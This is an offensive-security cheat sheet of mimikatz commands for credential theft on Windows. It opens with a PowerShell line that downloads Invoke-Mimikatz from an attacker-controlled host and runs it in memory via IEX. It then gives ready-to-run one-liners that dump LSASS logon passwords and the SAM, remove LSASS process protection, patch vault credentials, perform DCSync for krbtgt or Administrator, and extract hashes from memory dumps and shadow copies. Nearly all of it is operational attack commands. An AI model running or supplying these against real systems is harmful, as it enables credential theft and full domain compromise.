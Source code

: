 # mimikatz

% mimikatz, passwords

## powershell - load mimikatz
https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/Invoke-Mimikatz.ps1') | IEX
Invoke mimikatz
```

## mimikatz onliner
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords /all" "lsadump::sam" "exit"
```
## mimikatz disable PPL and dump passwords
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords /all" "exit"
```

## mimikatz - vault - Get passwords of scheduled tasks
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "token::elevate" "vault::cred /patch" "exit"
```

## mimikatz - dcsync - user (krbtgt/Administrator)
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:<domain> /user:<user>" "exit"
```

## mimikatz - extract credentials from dump
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords /all" "exit"
```

## mimikatz - extract credentials from shadow copy (1)
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
mimikatz.exe "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM"
```
